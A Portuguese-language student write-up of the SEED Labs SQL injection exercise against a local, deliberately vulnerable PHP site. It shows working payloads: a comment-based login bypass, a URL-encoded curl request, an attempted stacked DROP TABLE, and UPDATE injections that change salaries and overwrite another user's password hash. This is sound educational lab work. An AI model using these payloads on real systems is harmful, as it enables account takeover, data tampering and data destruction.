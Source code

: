 # SQL Injection Attack

## Setup

Numa fase inicial adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executamos os containers fornecidos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios.

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up

$ docksh f3             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Selecionar o schema
```

## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice". Como a sintaxe SQL já é bem conhecida facilmente chegamos ao comando correcto para executar a operação:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtivemos assim todos os dados pessoais do utilizador:

![Task 1](../img/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e também ao ficheiro `unsafe_home.php`. Aí pudemos constatar que a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```sql
WHERE name= '$input_uname' and Password='$hashed_pwd'
```

Como o campo password é cifrado é vantajoso usurpar o funcionamento da pesquisa usando somente o campo do username.<br>
Ao usarmos o input "admin'#", garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim obter todos os dados relativos ao resto dos utilizadores da aplicação:

![Task 2 a](../img/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Desta vez realizamos o ataque através de um pedido GET. Um exemplo de um pedido a este servidor numa linha de comandos seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, desta vez cifrado usando as convenções (%27 = ' e %23 = #), obtivemos o seguinte comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtivemos com isto o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../img/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect no servidor. Por exemplo eliminar a tabela das credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto a operação não chegou a ser executada devido a um erro na base de dados:

![Task 2 c](../img/lab8task2c.png)

Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries, pelo que não foi possível concluir o ataque.

### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com uma conta do sistema (por exemplo username = Alice, password = 11), tivemos acesso a uma página para editar os dados pessoais. Esta é gerida a partir do ficheiro disponibilizado `unsafe_edit_backend.php`, que contém uma query também formada dinamicamente com as strings não sanitizadas do input do utilizador. <br>
O nosso ataque consistui na utilização do campo "phone number". Usando a mesma técnica dos tópicos anteriores obtivemos o seguinte código que pode manipular o salário do utilizador:

```sql
933667378',Salary='9999999
```

Note-se que a plica (') antes do valor do salário é importante para completar a última instrução antes do WHERE. No final o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```

Tal como previsto, a variável salário foi também alterada para o valor escolhido:

![Task 3 a](../img/lab8task3a.png)

#### Task 3.2 - Modify other people’ salary

Para alterar o valor do salário de outro utilizador usamos uma técnica parecida com a anterior. No entanto criamos uma WHERE clause diferente e comentamos a que estava no sistema para não interferir na pesquisa:

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

Aqui podemos ver o valor do salário do Boby antes e depois do ataque:

![Task 3 b](../img/lab8task3b.png)

#### Task 3.3 - Modify other people’ password

Para alterar a password de outro utilizador usamos uma técnica parecida com a anterior. Desta vez o valor a modificar foi cifrado antes com criptografia SHA1. Por exemplo, para a nova palavra-passe `penguin`, o hash é `73335c221018b95c013ff3f074bd9e8550e8d48e`.

```sql
912345678', password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378', password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'# WHERE ID=$id;
```

Com a nova palavra passe alterada, conseguimos entrar na conta do Boby:

![Task 3 c](../img/lab8task3c.png)